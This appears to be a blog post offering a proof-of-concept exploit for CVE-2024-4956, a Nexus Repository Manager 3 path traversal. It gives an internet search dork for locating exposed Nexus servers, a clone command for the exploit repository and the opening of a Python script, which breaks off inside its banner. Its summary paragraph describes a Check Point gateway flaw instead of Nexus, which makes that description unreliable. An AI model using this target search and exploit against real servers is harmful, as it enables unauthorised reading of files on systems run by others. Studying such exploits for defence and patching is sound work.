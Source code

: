 Listen

Share

POC — CVE-2024–4956 — Nexus Repository Manager 3 Unauthenticated Path
Traversal

Potentially allowing an attacker to read certain information on Check Point
Security Gateways once connected to the internet and enabled with Remote
Access VPN or Mobile Access Software Blades. A security fix that mitigates
this vulnerability is available.

> Read about it —
> [CVE-2024–4956](https://nvd.nist.gov/vuln/detail/CVE-2024-4956)

 _Disclaimer: This Proof of Concept (POC) is made for educational and ethical
testing purposes only. Usage of this tool for attacking targets without prior
mutual consent is illegal. It is the end user’s responsibility to obey all
applicable local, state, and federal laws. Developers assume no liability and
are not responsible for any misuse or damage caused by this program._

# Finding Targets

To find potential targets, use Fofa (similar to Shodan.io):

  * Fofa Dork: `header="Server: Nexus/3.53.0-01 (OSS)"`

First, clone the repository:

    
    
    git clone https://github.com/verylazytech/CVE-2024-4956

Or copy code manually:

    
    
    import requests  
    import random  
    import argparse  
    from colorama import Fore, Style  
      
    green = Fore.GREEN  
    magenta = Fore.MAGENTA  
    cyan = Fore.CYAN  
    mixed = Fore.RED + Fore.BLUE  
    red = Fore.RED  
    blue = Fore.BLUE  
    yellow = Fore.YELLOW  
    white = Fore.WHITE  
    reset = Style.RESET_ALL  
    bold = Style.BRIGHT  
    colors = [green, cyan, blue]  
    random_color = random.choice(colors)  
      
      
    def banner():  
        banner = f"""{bold}{random_color}  
      ______     _______   ____   ___ ____  _  _     _  _   ___  ____   __     
     / ___\ \   / / ____| |___ \ / _ \___ \| || |   | || | / _ \| ___| / /_    
    | |    \ \ / /|  _|     __) | | | |__) | || |_  | || || (_) |___ \| '_ \   
    | |___  \ V / | |___   / __/| |_| / __/|__   _| |__   _\__, |___) | (_) |  
     \____|  \_/  |_____| |_____|\___/_____|  |_|      |_|   /_/|____/ \___/   
                                                                               